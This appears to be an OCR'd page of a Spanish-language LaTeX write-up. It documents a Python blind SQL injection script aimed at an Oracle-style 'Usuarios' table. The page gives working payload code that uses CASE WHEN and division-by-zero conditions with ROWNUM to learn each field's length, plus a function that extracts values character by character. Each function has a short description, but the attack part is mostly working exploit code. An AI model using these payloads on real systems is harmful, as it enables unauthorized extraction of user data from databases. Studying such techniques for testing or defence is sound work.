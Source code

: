 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[language=Python]
def obtener_longitud_por_fila(campo, indice, max_length=40):
    """
    Determina la longitud de un campo específico para una fila específica en la base de datos.
    """
    for longitud in range(1, max_length + 1):
        payload = (
            f"d382yd8n21df4314fn817yf6834188ls023d8d' "
            f"AND (SELECT CASE WHEN (LENGTH({campo}) = {longitud}) THEN 1 ELSE 1/0 END "
            f"FROM (SELECT {campo}, ROWNUM AS rn FROM Usuarios) WHERE rn={indice}) = 1 --"
        )
        if enviar_inyeccion(payload):
            return longitud
    return 0
\end{lstlisting}

\textbf{Descripción de la función:}
\begin{itemize}
    \item \texttt{max\_length}: Longitud máxima del campo a probar.
    \item La función construye y envía inyecciones SQL con diferentes longitudes hasta que la base de datos devuelve una respuesta positiva.
    \item Si no se encuentra una longitud dentro del rango \texttt{max\_length}, se asume que los datos están fuera de los límites definidos.
\end{itemize}

\subsubsection{Extracción del valor carácter por carácter}

Después de determinar la longitud de un campo, el script extrae su valor carácter por carácter, iterando sobre un conjunto predefinido de caracteres posibles.

\begin{lstlisting}[language=Python]
def extraer_campo(campo, longitud, indice):
    """
    Extrae el valor del campo especificado carácter por carácter para una fila específica.
    """
    resultado = ""
    caracteres = string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation
    for pos in range(1, longitud + 1):
        for caracter in caracteres:
            inyeccion = construir_inyeccion(campo, pos, caracter, indice)
            if enviar_inyeccion(inyeccion):
                resultado += caracter
                break
    return resultado
\end{lstlisting}

\textbf{Descripción de la función:}
\begin{itemize}
    \item \texttt{longitud}: Longitud del campo a extraer.
    \item \texttt{caracteres}: Conjunto de caracteres posibles que se probarán (letras, números y símbolos).
    \item La función construye un payload para cada posición del campo y cada carácter, identificando cuál produce un cambio en la respuesta del servidor.
\end{itemize}
\end{document}
